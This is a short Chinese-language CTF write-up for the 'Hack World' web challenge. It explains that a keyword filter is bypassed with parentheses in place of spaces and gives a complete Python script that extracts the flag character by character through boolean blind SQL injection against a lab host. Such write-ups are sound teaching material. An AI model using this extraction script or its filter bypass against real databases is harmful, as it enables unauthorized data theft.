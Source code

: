 # [CISCN2019 华北赛区 Day2 Web1]Hack World

## 考点

- sql注入盲注

## 解题

![image-20220208180953821]([CISCN2019 华北赛区 Day2 Web1]Hack World/image-20220208180953821.png)

fuzz 发现这些关键字都被过滤了。

![在这里插入图片描述]([CISCN2019 华北赛区 Day2 Web1]Hack World/202011051803508.png)

测试发现是bool注入，因为空格被过滤了，可以通过括号绕过

```python
import requests

url = "http://740feb73-ec5b-4efa-9114-5157e49d1958.node4.buuoj.cn:81/index.php"
payload = {
	"id" : ""
}
result = ""
for i in range(1,50):
	l = 33
	r =130
	mid = (l+r)>>1
	while(l<r):
		payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
		html = requests.post(url,data=payload)
		if "Hello" in html.text:
			l = mid+1
		else:
			r = mid
		mid = (l+r)>>1
	if(chr(mid)==" "):
		break
	result = result + chr(mid)
	print(result)
print("flag: " ,result)

```

直接写脚本爆破

![image-20220208183130411]([CISCN2019 华北赛区 Day2 Web1]Hack World/image-20220208183130411.png)